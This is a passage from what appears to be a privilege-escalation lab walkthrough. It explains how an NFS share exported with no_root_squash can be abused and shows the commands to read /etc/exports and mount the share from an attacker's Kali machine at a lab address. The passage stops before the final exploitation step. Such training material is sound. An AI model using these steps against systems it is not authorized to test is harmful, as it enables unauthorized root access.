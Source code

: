 **Explanation:**  
You now have root access to the server, as indicated by `uid=0(root)`.

### Cleanup

After confirming root access, exit the root shell to maintain good security practices:

```bash
exit
```

**No Answer Needed**

## NFS (Network File System)

### Step 1: Understanding NFS Vulnerabilities

NFS allows a system to share directories and files with others over a network. If improperly configured, NFS can expose a system to various vulnerabilities, especially if root squashing is disabled. Root squashing maps requests from root on a client to the `nobody` user on the server, preventing root access over NFS.

### Step 2: Checking NFS Share Configuration

To understand the NFS configuration, check the `/etc/exports` file on the Debian VM:

```bash
cat /etc/exports
```

**Sample Output:**

```bash
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

**Explanation:**  
The output indicates that the `/tmp` directory is shared via NFS, with `no_root_squash` enabled. This means that the root user on the client machine will be treated as the root user on the server, allowing full access to the shared directory.

### Step 3: Exploiting the NFS Configuration

**1. Prepare Your Kali Box:**

Switch to the root user on your Kali box to ensure you have the necessary permissions:

```bash
sudo su
```

**2. Mount the NFS Share:**

Create a mount point on your Kali box and mount the NFS share:

```bash
mkdir /tmp/nfs
mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs
```
